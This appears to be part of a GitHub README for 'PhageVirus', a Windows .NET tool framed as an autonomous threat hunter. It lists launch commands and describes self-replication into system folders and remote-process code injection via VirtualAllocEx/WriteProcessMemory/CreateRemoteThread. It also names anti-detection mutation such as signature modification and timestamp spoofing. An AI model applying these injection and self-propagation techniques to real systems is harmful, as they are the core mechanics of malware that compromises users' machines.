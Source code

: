 ## 🎯 Usage Instructions

### Prerequisites
1. **Windows 10/11** with .NET 8.0
2. **Administrator privileges** (required for full functionality)
3. **Controlled environment** (VM recommended)

### Running the Application
```powershell
# Option 1: PowerShell script
.\run_phagevirus.ps1

# Option 2: Batch file
build_and_run.bat

# Option 3: Manual
dotnet build
dotnet run
```

### What Happens on Launch
1. **Autonomous Hunting**: Immediately begins scanning for threats
2. **Self-Replication**: Creates mutated copies in strategic locations
3. **Memory Analysis**: Scans process memory for malicious patterns
4. **Real-Time Response**: Takes action on detected threats
5. **Continuous Operation**: Schedules periodic hunting

## 🔬 Technical Implementation Details

### Windows API Usage
```csharp
// Process manipulation
OpenProcess(PROCESS_ALL_ACCESS, false, processId)
ReadProcessMemory(processHandle, address, buffer, size, out bytesRead)
WriteProcessMemory(processHandle, address, payload, size, out bytesWritten)

// Code injection
VirtualAllocEx(processHandle, IntPtr.Zero, payloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)
CreateRemoteThread(processHandle, IntPtr.Zero, 0, allocatedMemory, IntPtr.Zero, 0, IntPtr.Zero)
```

### Self-Replication Strategy
```csharp
// Target locations
C:\Windows\Temp\
%LocalAppData%\
%AppData%\
C:\Users\Public\Documents\

// Mutation techniques
- Signature modification
- Random padding
- File attribute manipulation
- Timestamp spoofing
```
